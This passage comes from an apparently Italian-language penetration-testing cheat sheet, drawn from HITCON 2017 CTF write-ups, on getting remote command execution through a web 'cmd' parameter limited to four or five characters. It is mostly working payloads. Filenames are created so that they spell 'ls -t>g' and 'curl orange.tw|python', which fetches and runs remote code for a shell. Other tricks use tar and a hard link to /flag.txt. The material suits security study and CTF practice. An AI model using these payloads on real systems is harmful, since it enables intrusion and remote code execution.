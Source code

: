 ```bash
http://host/?cmd=>\ \
http://host/?cmd=>rl\
http://host/?cmd=>cu\
http://host/?cmd=sh _
# Note that a "\" char is added at the end of each filename because "ls" will add a new line between filenames whenwritting to the file

## Finally execute the file "g"
http://host/?cmd=sh g


# Another solution from https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/
# Instead of writing scripts to a file, create an alphabetically ordered the command and execute it with "*"
https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/
## Execute tar command over a folder
http://52.199.204.34/?cmd=>tar
http://52.199.204.34/?cmd=>zcf
http://52.199.204.34/?cmd=>zzz
http://52.199.204.34/?cmd=*%20/h*

# Another curiosity if you can read files of the current folder
ln /f*
## If there is a file /flag.txt that will create a hard link
## to it in the current folder
```
### RCE con 4 caratteri
```bash
# In a similar fashion to the previous bypass this one just need 4 chars to execute commands
# it will follow the same principle of creating the command `ls -t>g` in a file
# and then generate the full command in filenames
# generate "g> ht- sl" to file "v"
'>dir'
'>sl'
'>g\>'
'>ht-'
'*>v'

# reverse file "v" to file "x", content "ls -th >g"
'>rev'
'*v>x'

# generate "curl orange.tw|python;"
'>\;\\'
'>on\\'
'>th\\'
'>py\\'
'>\|\\'
'>tw\\'
'>e.\\'
'>ng\\'
'>ra\\'
'>o\\'
'>\ \\'
'>rl\\'
'>cu\\'

# got shell
'sh x'
'sh g'
```
## Bypass di Read-Only/Noexec/Distroless